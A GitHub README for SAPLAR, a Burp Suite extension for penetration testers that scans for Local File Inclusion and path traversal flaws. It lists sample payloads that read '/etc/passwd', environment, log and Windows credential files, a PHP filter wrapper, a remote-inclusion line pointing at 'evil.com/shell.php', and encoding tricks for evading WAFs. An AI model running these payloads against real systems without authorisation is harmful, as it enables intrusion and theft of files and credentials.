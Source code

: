 # SAPLAR
SAPLAR - LFI &amp; Path Traversal Scanner


## Project Overview

SAPLAR is a powerful Burp Suite extension designed to detect Local File Inclusion (LFI) and Path Traversal vulnerabilities in web applications. It is specifically built for penetration testers, bug bounty hunters, and security researchers who need an automated, flexible, and highly efficient LFI scanner within Burp Suite.

This tool injects LFI payloads into various parts of the HTTP request, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

SAPLAR analyzes the server response to identify common LFI signatures and indicators. It features automated active scanning, manual scanning, and multiple encoding options to bypass security filters.


## Features

**Multi-Vector LFI Injection**

SAPLAR automatically injects payloads into multiple request locations:

Query Parameters (?file=../../etc/passwd)
POST Body (file=../../etc/passwd)
Cookies (session=../../etc/passwd)
HTTP Headers (User-Agent, Referer, X-Forwarded-For, Authorization, etc.)

**Wide LFI Payload Database**

Includes hundreds of payloads targeting:

Linux systems (/etc/passwd, /proc/self/environ, /var/log/auth.log)
Windows systems (C:\Windows\win.ini, C:\boot.ini, C:\Users\Administrator\NTUSER.DAT)
PHP Wrappers (php://filter/convert.base64-encode/resource=index.php)
Log file extraction (../../../../var/log/apache2/access.log)
Remote inclusion possibilities (http://evil.com/shell.php)

**Automatic Encoding & WAF Bypass**

Payloads can be encoded automatically to bypass security protections like WAF (Web Application Firewalls) and input validation filters.

Base64 Encoding
URL Encoding (Single, Double, Triple)
HEX Encoding
Unicode Encoding

**Signature-Based Response Analysis**

SAPLAR scans responses for known LFI indicators, such as:

🔹 System Users: "root:x:0:0:", "NT AUTHORITY\\SYSTEM"
🔹 Configuration Files: "[boot loader]", "kernel.core_pattern"
🔹 Error Messages: "failed to open stream", "No such file or directory"
🔹 False Positive Filtering: Detects standard 403/404 responses

**Header & Cookie-Based Injection**

Injects LFI payloads into common headers:
User-Agent
Referer
X-Forwarded-For
Authorization
X-Api-Key
Accept-Charset
Cookie Manipulation: Tries injecting LFI payloads into cookie values.

**GUI Integration in Burp Suite**

SAPLAR provides a user-friendly graphical interface in Burp Suite.

✅ A dedicated LFI Scan tab to manage scans.
✅ Right-click on any request in Burp and select "Scan for LFI".
✅ Real-time exploit status updates (Exploited, Not Vulnerable, Possible LFI).

